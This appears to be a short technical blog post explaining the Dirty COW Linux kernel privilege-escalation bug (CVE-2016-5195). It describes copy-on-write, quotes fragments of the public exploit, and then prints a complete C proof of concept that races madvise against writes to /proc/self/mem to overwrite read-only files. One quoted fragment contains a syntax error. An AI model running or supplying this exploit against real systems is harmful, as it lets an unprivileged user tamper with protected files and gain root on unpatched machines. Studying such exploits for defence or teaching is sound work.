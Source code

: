 ```yaml
---
title: Dirty COW (CVE-2016-5195)
date: 2022-02-19 21:50:00
tags:
    - linux
    - COW
    - anusO1
category: tech
keywords:
  - dirtycow
---
```


# author:[[anusO1]](https://github.com/calebrwalk5)

## COW (Copy on Write)

Copy on Write is an optimization technique that allows virtual pages of memory in different processes, which have identical content to map to the same physical memory pages. If one of the processes writes to one of these shared pages, the data is copied to a new physical page and the virtual-to-physical-memory mappings are updated according to the changes. This techniqie is used (and abused) in many different scenarios.

## Vulnerability

"Dirty Cow" (CVE-2016-5195) is a privilege escelation vulnerability in the Linux kernel. Here we are looking at the ["dirtyc0w PoC"](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)
```
map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
```
It starts two threads. One thread opens /proc/self/mem read-write and loops millions of times writing the data specified on the command-line to it at the offset of the mmap’ed file.  /proc/self/mem is an entry in the procfs virtual file system which gives access to the pages of a current process’s virtual memory.

```
void *procselfmemThread(void *arg) {
	char *str;
	str=(char*)arg;
	int f=open("/proc/self/mem",O_RDWR);
	int i,c=0;
	for(i=0;i<100000000;i++) {
		lseek(f,(uintptr_t) map,SEEK_SET);
		c+=write(f,str,strlen(str));
	}
	printf("procselfmem %d\n\n", c);
}
```
This writes to /proc/self/mem and triggers COWs, but these pages are marked a private, and the memory pages will not be written back to the mapped file. However, the other thread loops, again millions of times, calling the madvise(2) system call on the same offset with the flag MADV_DONTNEED which tells the kernel to discard the pages that are mmap’ed.
```
void *madviseThread(void *arg) {
	char *str;
	str(char*)arg;
	int i,c=0;
	for(i=0;i<100000000;i++) {
		c+=madvise(map,100,MADV_DONTNEED);
	}
	printf("madvise %d\n\n",c);
}
```

## Example POC for Dirty Cow

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <stdlib.h>
#include <string.h>
#include <pthread.h>

void *mapping;
char *datptr;
int offset = 0;
int len = 0;

void *throwVirtMap(){
	int i;
	for (i = 0; i < 10000; i++){
		madvise(mapping, 1, MADV_DONTNEED);
	}
}

void *writeToMem(){
	int i;
	int procmem = open("/proc/self/mem", O_RDWR);
	for (i = 0; i < 10000; i++){
		lseek(procmem, (off_t)mapping+offset, SEEK_SET);
		write(procmem, datptr, len);
	}
}

int main(int argc, char *argv[]){
	if (argc < 3){
		printf("DirtyCOW PoC\n");
		printf("Usage: %s <file_to_be_written_to> <data_to_be written> <offset_to_be_written_at>\n", argv[0]);
		printf("The offset parameter is optional, you can set it or not. By default, offset is 0\n");
		exit(1);
	}
	if (argc == 4){
		offset = atoi(argv[3]);
	}
	int bin;
	struct stat fileinfo;
        pthread_t t1, t2;
	char *file;

	file = argv[1];
	len = strlen(argv[2]);
	datptr = calloc(len, 0x1);
	memcpy(datptr, argv[2], len);
	bin = open(file, O_RDONLY);
	if (bin == -1){
		printf("crashed at open\n");
		exit(-1);
	}
	if (fstat(bin, &fileinfo) == -1){
		printf("crashed at getting file info\n");
		exit(-1);
	}
	mapping = mmap(NULL, fileinfo.st_size, PROT_READ, MAP_PRIVATE, bin, 0);
	pthread_create(&t1, NULL, writeToMem, NULL);
	pthread_create(&t2, NULL, throwVirtMap, NULL);
	pthread_join(t1, NULL);
	pthread_join(t2, NULL);
}
```

## Who found the "Dirty Cow" vulnerability?

[Phil Oester](https://access.redhat.com/security/cve/CVE-2016-5195) found it in October of 2016

## More Info

[Debian](https://security-tracker.debian.org/tracker/CVE-2016-5195)
[dirtycow.ninja](https://dirtycow.ninja)
[Wikipedia](https://en.wikipedia.org/wiki/Dirty_COW)
